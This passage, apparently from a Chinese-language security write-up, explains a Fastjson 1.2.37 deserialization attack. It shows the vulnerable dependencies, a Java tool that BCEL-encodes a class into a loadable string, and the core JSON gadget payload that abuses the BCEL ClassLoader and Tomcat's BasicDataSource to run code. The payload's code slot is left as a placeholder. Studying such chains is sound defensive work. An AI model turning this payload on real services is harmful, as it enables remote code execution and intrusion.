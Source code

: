 ```java
    "            }\n" +
    "        }\n" +
    "    }\n" +
    "}";
JSON.parse(payload);
```
这个`Payload`适用于1.2.37版本，并且需要导入Tomcat相关的包
```xml
<dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.37</version>
    </dependency>
    <dependency>
        <groupId>org.apache.tomcat</groupId>
        <artifactId>tomcat-dbcp</artifactId>
        <version>8.0.36</version>
    </dependency>
</dependencies>
```
生成`driverClassName`的工具如下
```java
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.Repository;

public class Test {
    public static void main(String[] args) throws Exception {
        JavaClass cls = Repository.lookupClass(Exp.class);
        String code = Utility.encode(cls.getBytes(), true);
        code = "$$BCEL$$" + code;
        new ClassLoader().loadClass(code).newInstance();
        System.out.println(code);
    }
}
```
BCEL的全名是Apache Commons BCEL，Apache Commons项目下的一个子项目，包含在JDK的原生库中。可以通过BCEL提供的两个类 Repository 和 Utility 来利用：Repository 用于将一个Java Class先转换成原生字节码，当然这里也可以直接使用javac命令来编译java文件生成字节码；Utility 用于将原生的字节码转换成BCEL格式的字节码。<br />生成的BCEL格式大概如下：
```
$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$......
```
将这种格式的字符串，作为“字节码”传入`new ClassLoader().loadClass(code).newInstance();`将会被实例化，当在Fastjson反序列化中构造出这种链，将会造成反序列化漏洞<br />回到Payload，开头一部分用于绕Fastjson黑白名单，没有什么特殊的意义，核心部分如下：
```json
"x" : {
    "name": {
        "@type" : "java.lang.Class",
        "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
    },
    "y": {
        "@type":"com.alibaba.fastjson.JSONObject",
        "c": {
            "@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
            "driverClassLoader": {
                "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
            },
            "driverClassName":"!!!Payload!!!",
            "$ref": "$.x.y.c.connection"
        }
    }
}
```